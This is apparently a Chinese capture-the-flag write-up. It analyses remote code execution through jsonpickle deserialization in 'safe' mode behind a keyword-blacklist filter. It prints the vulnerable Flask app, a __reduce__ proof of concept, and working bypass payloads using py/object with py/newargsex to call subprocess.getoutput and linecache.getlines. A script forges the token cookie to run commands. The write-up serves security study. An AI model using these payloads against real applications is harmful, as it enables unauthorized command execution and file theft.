





# 强网S8决赛JsonPcikle Safe模式下的RCE与绕过分析研究-先知社区

> **来源**: https://xz.aliyun.com/news/16041  
> **文章ID**: 16041

---

## Jsonpickle反序列化Safe模式下的绕过RCE

前两天决赛的时候，遇到这个Jsonpickle反序列化Safe模式并且黑盒过滤很多reduce等关键词下的RCE，并不是网上的pickle反序列化，网上也没有Jsonpickle反序列化的相关文章和例题只能自己调试并绕过SAFE模式下的RCE以及文件读取，现记录一下详细分析方便后人继续探索Jsonpickle反序列化Safe模式下的绕过RCE及文件读取。

最后getshell拿到了源码如下，方便我们分析调试

```
from flask import Flask, request, render_template, redirect
from dataclasses import dataclass
from time import time
import jsonpickle
import base64
import json
import os
@dataclass
class User:
    username: str
    password: str
@dataclass
class Token:
    username: str
    timestamp: int

app = Flask(__name__)
users = [User('admin', os.urandom(32).hex()), User('guest', 'guest')]
BLACKLIST = [
    'repr','state','json','reduce','tuple','nt','\\\\','builtins','os','popen','exec','eval','posix', 'spawn','compile','code']
def waf(jtoken): 
    otoken = json.loads(jtoken)
    token = json.dumps(otoken, ensure_ascii=False)
    for keyword in BLACKLIST: 
        if keyword in token: 
            return False
        return True
@app.route('/')
def index():
    return render_template('index.html', title='Home')
@app.post('/login')
def login():
    username = request.form.get('username')
    password = request.form.get('password') 
    for user in users: 
        if user.username == username and user.password == password:        
            res = app.make_response('Login successful')            
            token = Token(username, time())        
            res.status_code = 302            
            res.set_cookie('token', base64.urlsafe_b64encode(jsonpickle.encode(token).encode()).decode())        
            res.headers['Location'] = '/home' 
            return res    
        return 'Invalid credentials(guest/guest)'
@app.route('/home')
def home():
    token = request.cookies.get('token') 
    if token:     
        jtoken = base64.urlsafe_b64decode(token.encode()).decode()
        if not waf(jtoken):        
            return 'Invalid token'        
        token = jsonpickle.decode(jtoken, safe=True)
        if time() - token.timestamp < 60:        
            if token.username != 'admin':            
                return f'Welcome {token.username}, but you are not admin'        
            return 'Welcome admin, there is something in /s3Cr3T'
        return 'Invalid token'
@app.route('/s3Cr3T')
def secret():
    token = request.cookies.get('token') 
    if token:     
        jtoken = base64.urlsafe_b64decode(token.encode()).decode()
        if not waf(jtoken):        
            return 'Invalid token'        
        token = jsonpickle.decode(jtoken, safe=True)
        if time() - token.timestamp < 60:        
            if token.username != 'admin':            
                return 'Invalid token'        
            return '''if not waf(token): return 'Invalid token'token = jsonpickle.decode(token, safe=True)', 'if time() - token.timestamp < 60: if token.username != 'admin': ", " return f'Welcome {token.username}, but you are not admin'", " return 'Welcome admin, there is something in /s3Cr3T'", "return 'Invalid token'", "'''.strip()
        return 'Invalid token'

if __name__ == '__main__':
    app.run('0.0.0.0', 5000)

```

```
if not waf(token):
    return 'Invalid token'
token = jsonpickle.decode(token, safe=True)
if time() - token.timestamp < 60:
    if token.username != 'admin':
        return f'Welcome {token.username}, but you are not admin'
    return 'Welcome admin, there is something in /s3Cr3T'
return 'Invalid token'

```

先看一下登录路由

```
@dataclass
class User:
    username: str
    password: str

@dataclass
class Token:
    username: str
    timestamp: int

@app.post('/login')
def login():
    username = request.form.get('username')
    password = request.form.get('password') 
    for user in users: 
        print(user.username, user.password)
        if user.username == username and user.password == password:        
            res = app.make_response('Login successful')            
            token = Token(username, time())        
            res.status_code = 302            
            res.set_cookie('token', base64.urlsafe_b64encode(jsonpickle.encode(token).encode()).decode())        
            res.headers['Location'] = '/home' 
            return res    

    return 'Invalid credentials(guest/guest)'

```

代码用jsonpickle加密Token 类

```
jsonpickle.encode(token).encode()

```

我们用guest用户成功登录之后给了token



base64解密之后的数据我们下面会用到

```
{"py/object": "__main__.Token", "username": "guest", "timestamp": 1733551979.8980324}

```

黑盒时要越权到admin，修改token可以到admin（base64解码后修改，注意时间60s）



看样子要rce，wsgi的Werkzeug/3.1.3（python库）原来是让我们看这个地址:



给了一部分源码

```
if not waf(token):
    return 'Invalid token'
token = jsonpickle.decode(token, safe=True)
if time() - token.timestamp < 60:
    if token.username != 'admin':
        return f'Welcome {token.username}, but you are not admin'
    return 'Welcome admin, there is something in /s3Cr3T'
return 'Invalid token'

```

我们分析一下Jsonpickle反序列化的功能，**难点就在于用safe模式下的反序列化范围来RCE**

* **功能**：
  + 将 `jtoken` 中的 JSON 数据反序列化为 Python 对象。
* **参数**：
  1. **`jtoken`**：
     + 一个包含 JSON 数据的字符串，例如：`'{"py/object": "__main__.MyClass", "attr": "value"}'`。
  2. **`safe=True`**：
     + 启用安全模式，限制反序列化的对象范围。
     + 如果设置为 `True`，只允许反序列化为基本数据类型（如字典、列表、字符串、整数等），避免执行潜在的危险代码（如自定义对象或可执行代码）。
     + 默认值为 `False`，允许反序列化复杂的 Python 对象。

reduce试试？ 本地试了能执行成功的，但估计也不出网，测试了靶机一下爆了500

```
import jsonpickle
class Exp(object):
    def __reduce__(self):
        return (__import__('os').system, ('whoami',))

a = Exp()
s = jsonpickle.encode(a)
jsonpickle.decode(s,safe=True)

```

本地发现safe模式下jsonpickle反序列化reduce函数RCE成功，但是waf把reduce过滤了需要另寻出路



500是执行成功了，但是服务器报错了，可以**覆盖time**吗？可以，但其实覆盖了之后即使能够命令执行也没有回显，我们可以将命令执行的结果放到token.username回显出来

但是判断是在执行之后，只有不是admin才会打印token.username

500有可能是构造的json对象里面缺少了他那边token需要的变量，username和password那些没放进去，然后后面取属性的时候报错了

我们上面exp输出如下

```
import jsonpickle
class Exp(object):
    def __reduce__(self):
        return (__import__('os').system, ('whoami',))

a = Exp()
s = jsonpickle.encode(a)
print(s)


{"py/reduce": [{"py/function": "nt.system"}, {"py/tuple": ["whoami"]}]}

```

我们通过源码可以知道其实过滤了很多关键词比如reduce，并且unicode也不能绕过

```
BLACKLIST = [

    'repr','state','json','reduce','tuple','nt','\\\\','builtins','os','popen','exec','eval','posix', 'spawn','compile','code']

def waf(jtoken):

    otoken = json.loads(jtoken)
    token = json.dumps(otoken, ensure_ascii=False)#：将 Python 对象 otoken 转换为 JSON 格式的字符串，并确保非 ASCII 字符不被转义，然后赋值给变量 token。
    for keyword in BLACKLIST:
        if keyword in token:
            return False

        return True

```

通过之前的base64解密的token得到

```
{"py/object": "__main__.Token", "username": "guest", "timestamp": 1733551979.8980324}

```

试了一下不用reduce 可以直接object命令执行带出，但是需要绕过一下builtins,或者使用os.system反弹shell 或者curl外带？。因为题目好像是没有模板的

```
import jsonpickle

s = "{'username':{'py/object':'builtins.eval','py/newargsex':[{'py/tuple': ['open(\"./flag\").read()']},'']}}"
a = jsonpickle.decode(s,safe=True)
print(a['username'])

```

通过fuzz测试出为黑名单：reduce、subprocess、os、builitns

### **Pyckle Tag**

由于**reduce**被过滤，通过阅读官网文档[jsonpickle documentation](https://jsonpickle.github.io/)以及Jsonpickle源码先学习一下**Pyckle Tag**是什么

#### `jsonpickle.tags` 模块的实现

定义了 `jsonpickle` 库用于序列化和反序列化 Python 对象时使用的**自定义标签（tags）**。这些标签被用作键，帮助标识序列化字典中的特殊数据结构或元信息，以便 `Pickler` 和 `Unpickler` 类正确处理复杂的 Python 对象。

```
"""The jsonpickle.tags module provides the custom tags  
used for pickling and unpickling Python objects.  

These tags are keys into the flattened dictionaries  
created by the Pickler class.  The Unpickler uses  
these custom key names to identify dictionaries  
that need to be specially handled.  
"""  

BYTES = 'py/bytes'  
B64 = 'py/b64'  
B85 = 'py/b85'  
FUNCTION = 'py/function'  
ID = 'py/id'  
INITARGS = 'py/initargs'  
ITERATOR = 'py/iterator'  
JSON_KEY = 'json://'  
MODULE = 'py/mod'  
NEWARGS = 'py/newargs'  
NEWARGSEX = 'py/newargsex'  
NEWOBJ = 'py/newobj'  
OBJECT = 'py/object'  
PROPERTY = 'py/property'  
REDUCE = 'py/reduce'  
REF = 'py/ref'  
REPR = 'py/repr'  
SEQ = 'py/seq'  
SET = 'py/set'  
STATE = 'py/state'  
TUPLE = 'py/tuple'  
TYPE = 'py/type'  

# All reserved tag names  
RESERVED = {  
    BYTES,  
    FUNCTION,  
    ID,  
    INITARGS,  
    ITERATOR,  
    MODULE,  
    NEWARGS,  
    NEWARGSEX,  
    NEWOBJ,  
    OBJECT,  
    PROPERTY,  
    REDUCE,  
    REF,  
    REPR,  
    SEQ,  
    SET,  
    STATE,  
    TUPLE,  
    TYPE,  
}

```

#### 各标签含义

以下列出了常见标签及其作用：

##### **对象与模块相关**

* **`OBJECT = 'py/object'`**:
  + 标记字典表示某个 Python 对象。
  + 保存该对象的类的全限定名，例如 `module.ClassName`。
  + 用于还原自定义类实例。
* **`MODULE = 'py/mod'`**:
  + 指定对象所属的模块。
  + 用于标识模块级别的全局变量或函数。

##### **序列化构造方法**

* **`INITARGS = 'py/initargs'`**:

  + 存储构造对象时的初始化参数（对应 `__init__` 方法）。
* **`NEWARGS = 'py/newargs'`**:

  + 存储构造对象时调用 `__new__` 方法的参数。
* **`NEWARGSEX = 'py/newargsex'`**:

  + 扩展的 `__new__` 参数格式，通常用于支持复杂对象。
* **`NEWOBJ = 'py/newobj'`**:

  + 表示对象通过 `__new__` 方法创建。

##### **数据类型**

* **`SEQ = 'py/seq'`**:

  + 用于标记序列类型（如 `list`）。
* **`SET = 'py/set'`**:

  + 用于标记集合类型（如 `set`）。
* **`TUPLE = 'py/tuple'`**:

  + 用于标记元组类型。
* **`BYTES = 'py/bytes'`**:

  + 标记二进制数据。

##### **状态与引用**

* **`STATE = 'py/state'`**:

  + 存储对象的内部状态（对应 `__dict__` 或 `__getstate__` 方法）。
* **`ID = 'py/id'`**:

  + 为对象分配唯一 ID，用于解决循环引用问题。
* **`REF = 'py/ref'`**:

  + 表示对之前已序列化对象的引用，避免重复序列化。

##### **函数与属性**

* **`FUNCTION = 'py/function'`**:
  + 用于标记函数对象。
* **`PROPERTY = 'py/property'`**:
  + 用于标记属性对象。

##### **其他**

* **`REDUCE = 'py/reduce'`**:

  + 表示通过 `__reduce__` 方法进行序列化。
* **`REPR = 'py/repr'`**:

  + 表示通过字符串表示法（`__repr__`）存储对象。
* **`JSON_KEY = 'json://'`**:

  + 表示 JSON 键值对的特殊格式。

### WAF绕过

不出网在/home路由我们通过反序列化改变username值来回显  
并且测试发现**py/object**同样也能像**py/reduce**调用函数，并且找到`py/newargsex`

绕过之前原payload为：绕过可以用set集合代替元组

```
{"py/reduce": [{"py/function": "nt.system"}, {"py/tuple": ["whoami"]}]}

```

读文件回显绕过之后为： linecache.getlines读文件

```
{"py/object": "__main__.Token", "username": {"py/object":"linecache.getlines","py/newargsex":[{"py/set":["./flag"]},""]} ,"timestamp": 1733463288.647048 }

```

RCE绕过payload为：subprocess.getoutput可以执行命令

```
{"py/object": "__main__.Token", "username": {"py/object":"subprocess.getoutput","py/newargsex":[{"py/set":["whoami"]},""]}, "timestamp": ''}

```

由于对token的时间戳有检验，所以我们需要编写脚本伪造时间戳发包，本地环境成功回显

```
import requests
import time
import base64

data1='{"py/object": "__main__.Token", "username": {"py/object":"subprocess.getoutput","py/newargsex":[{"py/set":["whoami"]},""]}, "timestamp": '+str(time.time())+'}'

url="http://127.0.0.1:5000/home"

res=requests.get(url,cookies={"token":base64.b64encode(data1.encode()).decode()})

print(res.text)

```



最终通过subprocess执行命令，成功RCE

```
{"py/object": "__main__.Token", "username": {"py/object":"subprocess.getoutput","py/newargsex":[{"py/set":["/readflag"]},""]} ,"timestamp": 1733467440.7435746}

```
